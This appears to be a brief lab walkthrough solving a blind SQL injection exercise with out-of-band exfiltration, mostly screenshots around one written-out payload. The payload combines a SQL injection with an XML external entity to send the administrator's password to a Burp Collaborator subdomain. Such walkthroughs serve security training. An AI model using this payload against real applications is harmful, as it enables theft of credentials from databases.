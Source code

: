 # Lab: Blind SQL injection with out-of-band data exfiltration #

# Lab Description #

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ac428f09-13bb-432a-8221-f8ead4073f7c)

## Target Website ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/cef94ec1-4d86-4191-83b5-176fbc8ba86a)

We have intercepted the request and now we will modify the request to admin password

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/10e9856c-503d-47a2-a86e-d9212043b9f2)

We will use this payload `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

We got the password 
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/2c80b795-962c-4b3e-b059-27a2db323408)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/3eaa0fa1-0082-4f7f-94a1-270ab8dbb990)
